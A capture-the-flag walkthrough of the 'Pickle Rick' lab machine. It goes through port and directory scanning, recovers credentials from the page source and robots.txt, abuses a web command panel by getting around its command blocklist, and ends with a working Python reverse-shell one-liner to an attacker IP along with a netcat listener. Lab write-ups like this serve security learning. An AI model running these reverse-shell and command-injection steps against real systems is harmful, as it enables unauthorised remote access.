





# Pickle Rick

### Machine IP: 10.10.110.178&#x20;

### Enumeration:

1. **Nmap scan**:\
   `sudo nmap -sC -sV -T4 10.10.110.178`

<figure><figcaption></figcaption></figure>

2. **Gobuster scan:**\
   ****\
   ****`gobuster dir -u http://10.10.110.178 -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -t 100 -q -x php,sh,txt,cgi,html,js,css,py -o scans/gobuster-small.txt`

<figure><figcaption>
gobuster scan
</figcaption></figure>

From this scan we get a few paths. Lets check them.\
When we go to: [http://10.10.110.178/robots.txt](http://10.10.110.178/robots.txt), we get a text string: Wubbalubbadubdub\
In [http://10.10.110.178/login.php](http://10.10.110.178/login.php) we get a login page.

3. **Check the website:**\
   ****As there was a port 80 open in our nmap scan, lets see the website!

<figure><figcaption>
picklerick website
</figcaption></figure>

<figure><figcaption>
source code of website
</figcaption></figure>

From the website source we get a username. We can try using it with the string we got from robots.txt file as the password. Lets try it in the login.php page.

We get a successful login with these credentials!

<figure><figcaption>
successful login
</figcaption></figure>

After login we get a text field for entering commands. If we try to execute any commands, they will get executed by the machine. \
We can capture this request in Burp Suite and try running commands.

### Burp Suit:

After capturing the request in Burp Proxy, we can send them to Repeater and send our custom requests.

<figure><figcaption></figcaption></figure>

We will find that some commands have been disabled, like cat, nano, vim etc. After a few tries, we can see that `less` is not disabled. So we can use it to get our **Sup3rS3cretPickl3Ingred.txt**

### Reverse-Shell:

Now that we can execute commands, lets try to get a shell. We can confirm python is installed on the system with: `which python3`\
``**Note**: If you try `which python` we wont get a response as only python3 is installed.

As python3 is installed, we can use a reverse-shell python script from [PentestMonkey](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) to gain the shell.

`python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.18.115.192",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'`\
``\
``In attack machine: `nc -lvnp 1234`

With this we will get a reverse-shell.&#x20;
